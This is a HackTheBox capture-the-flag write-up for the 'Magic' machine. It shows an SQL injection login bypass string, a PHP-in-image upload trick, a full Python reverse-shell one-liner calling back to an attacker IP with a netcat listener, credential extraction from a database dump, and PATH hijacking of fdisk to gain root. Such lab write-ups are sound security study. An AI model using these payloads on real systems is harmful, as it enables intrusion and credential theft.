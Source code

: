 ```yaml
---
title: Magic Writeup
author: mooncakeza
date: 2020-04-20 11:30am
categories: [hackthebox]
tags: [hackthebox, writeup, magic]
math: true
image: /assets/img/htb/Magic/magic_infocard.png
---
```


<p>Let's do a NMAP scan</p>

<img src="/assets/img/htb/Magic/01_nmap.png">

<p>
Browsing to http://10.10.10.185 we get a page with images and on the bottom left a login to upload images.
</p>

<img src="/assets/img/htb/Magic/02_login_message.png">

<p>
Let's click on the login link.
</p>

<img src="/assets/img/htb/Magic/03_login_blank.png">

<p>
I tried default top 10 usernames and passwords combos but nothing.
<br>
Since we have no credentials, we can try SQL injection
<br>
username: 'or '1'='1
<br>
password: 'or '1'='1
</p>

<img src="/assets/img/htb/Magic/04_login_sql.png">

<p>

We get prompted with an upload page for images.

<img src="/assets/img/htb/Magic/05_upload_img.png">

<p>

Let's see what can be uploaded. Let's just click upload.

</p>

<img src="/assets/img/htb/Magic/06_upload_img_error.png">

<p>

Only JPG, JPEG and PNG files are allowed. We need to bypass the filter.
<br>
Let's first upload a JPEG file and see where it saves it to.
<br>
When we upload a picture it adds it to the front page on the slider and so we can right click to view image and we can see it saves it under http://10.10.10.185/images/uploads/
<br>
Now let's do some magic
<br>
Take any JPG,JPEG or PNG inject it with some code and then rename the file.

</p>

<img src="/assets/img/htb/Magic/07_cmd_image_insert.png">

<p>

Upload this file via the upload page
<br>
In another terminal run nc -lvnp 9991
<br>
The only payload I found to work was the python method
<br>
Now point your browser or use curl to the following URL
<br>
http://10.10.10.185/images/uploads/lordcommander.php.jpeg?cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.31",9991));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);

</p>

<img src="/assets/img/htb/Magic/08_img_rev_shell.png">

<p>

We have a shell!
<br>
Let's get an interactive shell

<p>

<ol><li>python -c 'import pty; pty.spawn("/bin/bash")'</li><li>ctrl + z (put's the nc into the background)</li><li>echo $TERM (this gets what your term is set as)</li><li>stty -a (this gets your windows size)</li><li>stty raw -echo (NOTE: you will not see any output after this)</li><li>fg (go back to the nc)</li><li>reset (this resets the terminal settings on the remote machine</li><li>In the Terminal type, type in the $TERM output you got, in my case it was xterm-256color. </li></ol>
<br>
NOTE: as of recent, this method I found has not been working as intended and sometimes hands the termminal. 
</p>

<p>

After enumerating a bit we get the following.

</p>

<img src="/assets/img/htb/Magic/09_db_details.png">

<p>

I tried to use the password to login via ssh and su but both failed.
<br>
This is not the password for the user.
<br>
Let's enumerate the database. There is no mysql client installed so the only way now is to do a mysqldump.

</p>

<img src="/assets/img/htb/Magic/10_db_dump.png">

<p>

We then find this in the dump.

</p>

<img src="/assets/img/htb/Magic/11_db_creds.png">

<p>

We have some creds. Password reuse?
<br>
Let us just su to the user with the password.

</p>


<img src="/assets/img/htb/Magic/12_user_login_png.png">

<p>

user flag achieved!
<br>
Now for root.
<br>
We first have to upload some enumerating scripts.
<br>
I uploaded both LinEnum and LinPEAS and found this pretty interesting:

</p>

<img src="/assets/img/htb/Magic/13_exec_files.png">

<p> 

/bin/sysinfo is executable and the user group has permissions to run it.
<br>
There is another tool called pspy64 which monitors linux processes and we can use this to see what sysinfo does in the background. So we run /bin/sysinfo and monitor pspy64 and see the following.

</p>

<img src="/assets/img/htb/Magic/14_fdisk.png">

<p>

sysinfo calls a few files and seems like we can inject our own path to point to a custom created fdisk file to maybe create a reverse shell?
<br>
First in another terminal run our nc -lvnp 9994 
<br>
Back to the magic terminal and let us add /tmp into the system PATH
<br>
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/bin:/usr/games:/usr/local/games:/snap/bin:/tmp
<br>
We then create a file in /tmp with the following.

</p>

<img src="/assets/img/htb/Magic/15_python_shell.png">

<p>

Make it executable and then run /bin/sysinfo again and we watch pspy64.

</p>

<img src="/assets/img/htb/Magic/16_run_script.png">

<p>

You can see it has now executed our code from the fdisk file we created in the /tmp directory instead of the actual operating system's fdisk!
<br>
Let us pop to the terminal where we can our nc.

</p>

<img src="/assets/img/htb/Magic/17_shell_pop.png">

<p>

WE HAVE ROOT!

</p>
